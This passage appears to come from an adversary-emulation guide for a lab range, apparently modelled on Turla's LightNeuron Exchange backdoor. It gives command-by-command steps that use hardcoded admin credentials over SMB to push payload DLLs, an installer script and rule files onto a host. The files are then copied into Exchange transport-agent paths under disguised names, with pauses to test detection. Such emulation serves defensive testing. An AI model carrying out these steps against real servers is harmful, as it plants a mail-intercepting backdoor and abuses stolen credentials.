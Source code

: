 :arrow_right: Return to your Kali C2 server

* In your Kali terminal window, copy the LightNeuron files to `uosis`

```bash
sudo smbclient -U 'nk\ZilvinasAdmin'%'Producer2!' //10.100.40.102/c$ -c 'put /opt/day2/turla/Resources/payloads/snake/ln_transport_agent.dll Windows\System32\mtxconf.dll'
sudo smbclient -U 'nk\ZilvinasAdmin'%'Producer2!' //10.100.40.102/c$ -c 'put /opt/day2/turla/Resources/payloads/snake/n_installer_aux.dll Windows\System32\mtxcli.dll'
sudo smbclient -U 'nk\ZilvinasAdmin'%'Producer2!' //10.100.40.102/c$ -c 'put /opt/day2/turla/Resources/payloads/snake/msiex.ps1 Windows\System32\msiex.ps1'
sudo smbclient -U 'nk\ZilvinasAdmin'%'Producer2!' //10.100.40.102/c$ -c 'put /opt/day2/turla/Resources/payloads/snake/rules.xml Windows\System32\wdr.rules.xml'
sudo smbclient -U 'nk\ZilvinasAdmin'%'Producer2!' //10.100.40.102/c$ -c 'put /opt/day2/turla/Resources/payloads/snake/winmail.dat Windows\System32\perfe009.dat'
```

:arrow_right: Return to your RDP session to `uosis (10.100.40.102)` as `Zilvinas`

* Open File Explorer and browse to `C:\Windows\System32`. Order files by date.

* Start an elevated command prompt. When prompted for credentials, use:

| Username   | Password |
| :--------: | :---------------: |
| nk\ZilvinasAdmin  | Producer2! |

* In the elevated cmd prompt, run the following commands to copy LightNeuron files. After each command, check your RDP session to `drebule (10.100.30.203)` to look for any indicators of blocked vendor activity.

```bat
copy C:\Windows\System32\mtxconf.dll "\\drebule\C$\Program Files\Microsoft\Exchange Server\V15\TransportRoles\agents\Hygiene\Microsoft.Exchange.Transport.Agent.ConnectionFiltering.dll"
```

* Wait 1 minute before copying the next file (LightNeuron companion DLL):

```bat
copy C:\Windows\System32\mtxcli.dll "\\drebule\C$\Program Files\Microsoft\Exchange Server\v15\bin\exdbdata.dll"
```

* Wait 1 minute before copying the next file (installation script):

```bat
copy C:\Windows\System32\msiex.ps1 \\drebule\C$\Windows\System32\msiex.ps1
```

* Wait 1 minute before copying the rules file:

```bat
copy C:\Windows\System32\wdr.rules.xml \\drebule\C$\Windows\ServiceProfiles\NetworkService\AppData\Local\Temp\msmdat.xml
```

* Wait 1 minute before copying the last config file:

```bat
copy C:\Windows\System32\perfe009.dat "\\drebule\C$\Program Files\Microsoft\Exchange Server\v15\bin\winmail.dat"
```
